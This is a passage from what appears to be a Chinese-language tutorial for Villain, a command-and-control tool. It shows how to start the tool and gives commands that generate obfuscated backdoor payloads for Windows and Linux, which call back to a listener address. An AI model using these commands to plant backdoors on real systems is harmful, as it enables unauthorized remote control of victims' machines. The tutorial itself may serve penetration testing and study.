 使用

启动villain：

```
python Villain.py
```

![image-20230131233907537](../../images//image-20230131233907537.png)

生成后门：

```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
# For Linux:
Villain > generate os=linux lhost=172.16.0.2
```

![image-20230131234237003](../../images//image-20230131234237003.png)

generate所支持的参数类型清单如下：
